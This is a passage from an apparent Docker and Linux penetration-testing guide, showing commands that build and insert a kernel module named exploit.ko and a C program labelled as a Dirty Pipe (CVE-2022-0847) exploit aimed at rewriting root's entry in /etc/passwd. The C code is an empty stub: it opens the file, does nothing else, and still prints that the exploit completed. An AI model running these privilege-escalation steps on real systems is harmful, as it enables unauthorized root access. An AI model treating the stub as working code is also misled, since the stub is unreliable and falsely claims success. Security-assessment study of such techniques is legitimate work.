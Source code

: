 ```bash
# Compile and load the module
apt-get update && apt-get install -y build-essential linux-headers-$(uname -r)
cd /tmp
make -C /lib/modules/$(uname -r)/build M=$(pwd) modules
insmod exploit.ko
```

### Kernel Exploitation

When vulnerable kernel versions are identified:

```bash
# Check kernel version
uname -a

# Example: Dirty Pipe (CVE-2022-0847) for Linux kernel 5.8 - 5.16.11
# Create exploit
cat > /tmp/dirtypipe.c << 'EOF'
// Exploit code for CVE-2022-0847 (simplified)
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/user.h>

int main(int argc, char *argv[]) {
    const char *target_file = "/etc/passwd";
    const char *victim_line = "root:x:0:0:root:/root:/bin/bash\n";
    const char *payload = "root::0:0:root:/root:/bin/bash\n";
    
    // Simplified exploit code - in real exploitation much more is needed
    printf("Exploiting Dirty Pipe vulnerability...\n");
    int fd = open(target_file, O_RDONLY);
    // Add exploitation code here
    
    printf("Exploit completed. Try 'su -' with empty password\n");
    return 0;
}
EOF

# Compile and run
gcc -o /tmp/dirtypipe /tmp/dirtypipe.c
/tmp/dirtypipe
```

### Docker-Specific Attack Tools

Several specialized tools can streamline Docker security assessment:

#### CDK (Container DevelopKitment kit)
